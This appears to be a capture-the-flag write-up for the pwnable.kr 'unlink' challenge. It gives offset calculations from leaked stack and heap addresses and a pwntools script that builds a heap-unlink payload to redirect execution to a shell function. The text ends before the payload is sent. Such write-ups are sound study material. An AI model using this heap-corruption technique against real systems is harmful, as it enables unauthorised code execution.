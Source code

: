 stack address leak: `0xff98e8d4`
heap address leak: `0x901f410`

ebp value: 
->`stack_address_leak - (example_stack_address_leak - ebp)`
-> `example_stack_address_leak - ebp = 0xff98e8d4 - 0xff98e8b8 = 28`
-> `stack_address_leak - 28`

 b->fd address:
-> `heap_address_leak - (example_heap_address_leak - FD_ADDRESS)`
-> `example_heap_address_leak - FD_ADDRESS = 0x901f410 - 0x901f428 = -24`
-> `heap_address_leak + 24`

b->bk address:
`b->fd address + 4`

a->buffer address:
-> `heap_address_leak - (example_heap_address_leak - a->buffer address)`
-> `heap_address_leak + 8`


```python
from pwn import *


SHELL_FUNCTION_ADDRESS = 0x80484eb


class StackDistance:
	EBP = -28

class HeapDistance:
	B_FD_ADDRESS = 24
	B_BK_ADDRESS = B_FD_ADDRESS + 4
	A_BUFFER_ADDRESS = 8


def build_payload(heap_address_leak: int, stack_address_leak: int) -> bytes:
	saved_ebp_address = stack_address_leak + StackDistance.EBP
	b_fd_address = heap_address_leak + HeapDistance.B_FD_ADDRESS
	b_bk_address = heap_address_leak + HeapDistance.B_BK_ADDRESS
	a_buffer_address = heap_address_leak + HeapDistance.A_BUFFER_ADDRESS

	return b''.join([
		p32(a_buffer_address + 8),
		p32(SHELL_FUNCTION_ADDRESS),
		p32(0),
		p32(19),
		p32(a_buffer_address + 4),
		p32(saved_ebp_address)
	]) + b'\n'

# Connect to pwnable unlink user via ssh
connection = ssh(user='unlink', port=2222, host='pwnable.kr', password='guest')
unlink_process = connection.run('/home/unlink/unlink')

# Retrieve the stack address
unlink_process.readuntil(b'stack address leak: 0x').decode()
stack_address_leak = unlink_process.readuntil(b'\n').decode().strip()
stack_address_leak = int(stack_address_leak, base=16)

# Retrieve the heap address 
unlink_process.readuntil(b'heap address leak: 0x').decode()
heap_address_leak = unlink_process.readuntil(b'\n').decode().strip()
heap_address_leak = int(heap_address_leak, base=16)

```